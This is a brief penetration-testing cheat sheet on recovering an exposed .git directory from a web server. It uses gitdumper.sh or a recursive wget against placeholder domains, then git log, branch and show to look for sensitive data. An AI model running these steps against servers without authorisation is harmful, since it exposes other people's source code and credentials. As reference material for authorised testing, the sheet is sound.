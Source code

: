 # GIT TOOLS

### Git tools are used when we locate an exposed .git folder that contains an entire repository with possibly sensitive information.

## STEPS:

#### 1) gitdumper.sh http://WHATEVER/.git/ repo

## Alternate method: wget

 - wget -r http://DOMAIN.COM/.git

#### 2) Go to the directory where the .git folder is located

#### 3) /path/to/extractor.sh . App

#### 4) git log (Gets all commits in the repository)

#### 5) git branch -a (Show all branches a repository has)

#### 6) git show COMMIT_NUMBER (See the specific commit in detail)
